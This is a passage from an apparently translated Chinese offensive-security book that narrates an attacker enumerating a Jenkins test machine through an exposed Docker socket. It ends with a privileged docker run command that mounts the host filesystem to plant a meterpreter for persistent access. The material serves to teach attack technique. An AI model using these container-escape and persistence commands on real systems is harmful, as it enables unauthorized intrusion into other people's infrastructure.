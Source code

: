 列表 12-1：`env`和`mount`命令的输出，后跟对元数据 API 的查询

在`env`命令的结果中，没有 Kubernetes 变量或协调器名称突出显示。看起来我们被困在一个独立的容器中，环境中没有密码或机密信息。甚至底层机器 2 上也没有附加 IAM 角色，只有一个偷偷摸摸的*/var/run/docker.sock* 1 被挂载到容器内部，还有一个 Docker 二进制文件。真是周到！

我们可以安全地将可能用于通过`curl`直接查询*/var/run/docker.sock*的丑陋 JSON 藏起来，并迅速执行 Docker 命令来枚举当前运行的容器（见列表 12-2）。

```
# **docker ps**
CONTAINER ID   IMAGE
1 e56951c17be0   983457354409.dkr.ecr.eu-west-1.amazonaws.com/
               app-abtest:SUP6541-add-feature-network

7f6eb2ec2565   983457354409.dkr.ecr.eu-west-1.amazonaws.com/datavalley:master

8cbc10012935   983457354409.dkr.ecr.eu-west-1.amazonaws.com/libpredict:master
`--snip--`
```

列表 12-2：主机上运行的容器列表

我们发现该机器上运行着超过 10 个容器，全部从*983457354409.dkr.ecr.eu-west-1.amazonaws.com*弹性容器注册表（ECR）中拉取。我们知道账户 ID 是 983457354409；我们在 mxrads-dl 的存储桶策略中看到它已被授权。我们的直觉是对的：最终还是 Gretsch Politico 的容器。

所有在列表 12-2 中找到的容器都使用`master`标签进行启动，除了一个：`app-abtest`镜像 1，它带有一个奇怪的标签`SUP6541-add-feature-network`。

我们或许已经对这台机器上发生的事情有了一些了解，但在得出结论之前，我们仍然需要最后一块信息。让我们使用`docker info`命令获取更多主机信息：

```
# **docker info**
Name: jenkins-slave-4
Total Memory: 31.859GiB
Operating System: Ubuntu 16.04.6 LTS
Server:
Containers: 546
Running: 12
`--snip--`
```

嗨，Jenkins，我们的老朋友。现在一切都明了了。我们可以推测，触发我们的负载的，可能是我们可以假设为端到端测试工作负载的某些操作。此实例中触发的任务可能会启动一个容器，使用*ecr-login.sh*脚本进行 AWS ECR 身份验证，然后提升一部分生产容器，这些容器用`master`标签标记——如`datavalley`、`libpredict`等——以及要测试的实验性 Docker 镜像：`ab-test`。这也解释了为什么它有一个与其他容器不同的标签。

以这种方式暴露 Docker 套接字在测试环境中是常见做法，在这些环境中，Docker 并不是主要用于其隔离功能，而是用于其打包功能。例如，Crane，一个流行的 Docker 编排工具([`github.com/michaelsauter/crane/`](https://github.com/michaelsauter/crane/))，用于提升容器及其依赖项。公司可能不会在每台机器上安装 Crane，而是将其打包到一个容器中，并在运行时按需拉取。

从软件的角度来看，这是很棒的。所有任务都使用相同版本的 Crane 工具，而运行测试的服务器变得无关紧要。然而，从安全的角度来看，这实际上使得使用 Docker-in-Docker 技巧成为合法（Crane 在其自己的容器内运行容器），这为地狱的洪水之门打开了。

## 持久化访问

测试任务只能持续一段时间，然后被丢弃。让我们通过在一个新的容器上运行自定义的 meterpreter，并将其标记为`aws-cli`，将这种临时访问转变为永久访问：

```
# **docker run \**
**--privileged \**
1 **-v /:/hostOS \**
**-v /var/run/docker.sock:/var/run/docker.sock \**
**-v /usr/bin/docker:/usr/bin/docker \**
**-d 886477354405.dkr.ecr.eu-west-1.amazonaws.com/aws-cli**
```
